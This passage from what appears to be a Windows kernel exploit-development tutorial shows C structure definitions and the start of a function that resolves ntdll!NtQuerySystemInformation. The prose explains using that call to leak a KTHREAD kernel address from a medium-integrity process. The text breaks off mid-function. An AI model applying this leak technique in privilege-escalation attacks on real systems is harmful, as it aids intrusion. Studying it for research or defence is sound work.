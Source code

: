 ```c
    WORD                 Id;
    WORD                 Rank;
    WORD                 w018;
    WORD                 NameOffset;
    BYTE                 Name[256];
} SYSTEM_MODULE, * PSYSTEM_MODULE;

typedef struct SYSTEM_MODULE_INFORMATION {
    ULONG                ModulesCount;
    SYSTEM_MODULE        Modules[1];
} SYSTEM_MODULE_INFORMATION, * PSYSTEM_MODULE_INFORMATION;

typedef struct _SYSTEM_HANDLE_TABLE_ENTRY_INFO
{
    ULONG ProcessId;
    UCHAR ObjectTypeNumber;
    UCHAR Flags;
    USHORT Handle;
    void* Object;
    ACCESS_MASK GrantedAccess;
} SYSTEM_HANDLE, * PSYSTEM_HANDLE;

typedef struct _SYSTEM_HANDLE_INFORMATION
{
    ULONG NumberOfHandles;
    SYSTEM_HANDLE Handles[1];
} SYSTEM_HANDLE_INFORMATION, * PSYSTEM_HANDLE_INFORMATION;

// Prototype for ntdll!NtQuerySystemInformation
typedef NTSTATUS(WINAPI* NtQuerySystemInformation_t)(SYSTEM_INFORMATION_CLASS SystemInformationClass, PVOID SystemInformation, ULONG SystemInformationLength, PULONG ReturnLength);
```

Invoking `NtQuerySystemInformation` is a mechanism that allows us to leak the `KTHREAD` object - so we will not go over each of these structures in-depth. However, it is worthwhile to talk about `NtQuerySystemInformation` itself.

`NtQuerySystemInformation` is a function which can be invoked from a medium-integrity process. More specifically there are specific "classes" from the `SYSTEM_INFORMATION_CLASS` enum that _aren't_ available to low-integrity or `AppContainer` processes - such as browser sandboxes. So, in this case, you would need a genuine information leak. However, since we are assuming medium integrity (this is the default integrity level Windows processes use), we will leverage `NtQuerySystemInformation`.

We first create a function which resolves `NtQuerySystemInformation`.

```c
/**
 * @brief Function to resolve ntdll!NtQuerySystemInformation.
 *
 * This function is used to resolve ntdll!NtQuerySystemInformation.
 * ntdll!NtQuerySystemInformation allows us to leak kernel-mode
 * memory, useful to our exploit, to user mode from a medium
 * integrity process.
 *
 * @param Void.
 * @return A pointer to ntdll!NtQuerySystemInformation.

 */
NtQuerySystemInformation_t resolveFunc(void)
{
	//
	// Obtain a handle to ntdll.dll (where NtQuerySystemInformation lives)
	//
	HMODULE ntdllHandle = GetModuleHandleW(L"ntdll.dll");

```